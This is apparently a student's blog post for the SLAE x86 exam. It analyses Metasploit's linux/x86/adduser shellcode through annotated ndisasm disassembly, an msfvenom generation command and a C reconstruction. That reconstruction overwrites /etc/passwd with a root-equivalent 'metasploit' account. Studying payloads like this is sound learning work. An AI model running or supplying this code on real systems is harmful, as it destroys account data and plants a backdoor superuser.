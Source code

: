 ```yaml
---
title: "SLAE x86 Exam - Assignment #5 Part 1"
date: 2021-12-25
toc: true
search: false
classes: wide
categories:
  - blog
tags:
  - slae
  - assembly
  - nasm
  - c
  - exam
  - shellcode
---
```


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

<https://www.pentesteracademy.com/course?id=3>

Student ID: PA-30398

## Foreword

The 5th assignment requires you to analyze at least 3 shellcode samples created using Msfpayload (nowadays `msfvenom`) for 32-bit Linux systems.

Programs like `gdb`/`ndisasm`/`libemu` can be used for dissecting the shellcode and performing the analysis.

I chose the following 4 shellcode samples:

Name | Description
-|-
linux/x86/adduser | Create a new user with UID 0
linux/x86/shell/reverse_nonx_tcp | Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_find_tag | Spawn a shell on an established connection (proxy/nat safe)
linux/x86/shell_reverse_tcp_ipv6 | Connect back to attacker and spawn a command shell over IPv6

## Analysis

In this post I'll analyse `linux/x86/adduser`.

### NDISASM

To generate the payload:

```bash
msfvenom -p linux/x86/adduser -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode2.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; ECX = 0
00000000  31C9              xor ecx,ecx

                            ; EBX = 0
00000002  89CB              mov ebx,ecx

                            ; EAX = 70
00000004  6A46              push byte +0x46
00000006  58                pop eax

                            ; call setreuid
00000007  CD80              int 0x80
```

{% sidenote The shellcode runs the command `setreuid(0, 0)` in order to execute subsequent instructions as **root** %}

```nasm
                            ; EAX = 5
00000009  6A05              push byte +0x5
0000000B  58                pop eax

                            ; pushes 0x2f6574632f2f70617373776400000000 to the stack
                            ; which is equal to "/etc//passwd"
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f

                            ; store reference to string into EBX
0000001E  89E3              mov ebx,esp

                            ; ECX = 0x401 (1025)
00000020  41                inc ecx
00000021  B504              mov ch,0x4

                            ; syscall open
00000023  CD80              int 0x80
```

{% sidenote The shellcode calls `open()` on `/etc//passwd` with flags `O_WRONLY` and `O_NOCTTY` %}

The file must already exist, otherwise the function won't be able to open it.

```nasm
                            ; exchanges the values of EAX and EBX
00000025  93                xchg eax,ebx

                            ; jumps to 0x00000053
00000026  E828000000        call 0x53
```

{% sidenote After exchanging EAX with EBX, the shellcode jumps to `0x00000053` %}

```nasm
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
```

{% sidenote The bytes from `0x0000002B` to `0x00000052` represent a string. In fact, the last byte is `0x0a` is a newline (`\n`) on Linux systems) %}

```nasm
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

I won't cover the bytes from `0x00000052` to `0x0000005f` as they aren't correct. In this case, `ndisasm` thinks that the byte at `0x00000052` is the opcode for the `OR` instructions, however it's simply a newline.

I had to adjust it manually:

```bash
echo -n '598b51fc6a0458cd806a0158cd80' | xxd -r -p > shellcode2.bin

ndisasm shellcode2.bin -b 32 -p intel
```

Follows the output of `ndisasm`:

```nasm
                            ; store the reference to the string into ECX
00000000  59                pop ecx

                            ; copy the byte stored at ECX-4 into EDX 
00000001  8B51FC            mov edx,[ecx-0x4]

                            ; call the write syscall
00000004  6A04              push byte +0x4
00000006  58                pop eax
00000007  CD80              int 0x80
```

{% sidenote According to the docs, EDX stores the length of the string, so it should be `0x28` (40 chars). The value is the fourth-to-last byte of the instruction stored at the address `0x00000026` (`E828000000`) %}

Aftert the shellcode retrieves the size of the string to bo written, it uses the `write()` syscall to write into the previously opened file, which is overwritten.

```nasm
                            ; call the exit syscall
00000009  6A01              push byte +0x1
0000000B  58                pop eax
0000000C  CD80              int 0x80
```

{% sidenote The shellcode gracefully terminates its execution %}

These last two pieces of shellcode simply write the new string inside the previously-opened file: `/etc//passwd`.

The line is the following:

```bash
echo "6D65746173706C6F69743A417A2F6449736A3470344952633A303A303A3A2F3A2F62696E2F73680A" | xxd -r -p

# metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

The format is the following:

```bash
# USERNAME:HASHED_PASSWORD:UID:GUID:GECOS_INFO:HOME_DIRECTORY:SHELL
```

The password in encrypted with `DES`, which is a weak encryption scheme. The first two characters (`Az`) are the salt, while the other eleven characters are the hash value.

According to the documentation of the module, the password should be `metasploit`.

Once the line is written, a new user with `UID 0` and `GUID 0` (hence identical to `root`), will be added to the machine.

### Decompiling

Since the shellcode it's small, I tried to convert the assembly instructions into a C program, in order to make it easier to understand what's going on:

```cpp
#include <unistd.h>
#include <fcntl.h>

int main(int argc, char *argv[])
{
  setreuid(0, 0);
  int fd = open("/etc//passwd", O_WRONLY | O_NOCTTY);
  write(fd, "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\n", 40);
}
```

A brief summary:

1. it uses `setreuid()` to set "real and effective user IDs of the calling process" (the differents arises when impersonating other users)
2. it uses `open()` to open the file `/etc//passwd` (which must already exist) in write mode, so it overwrites all of the contents
3. it uses `write()` to write **40 bytes** (the string shown above) inside the file
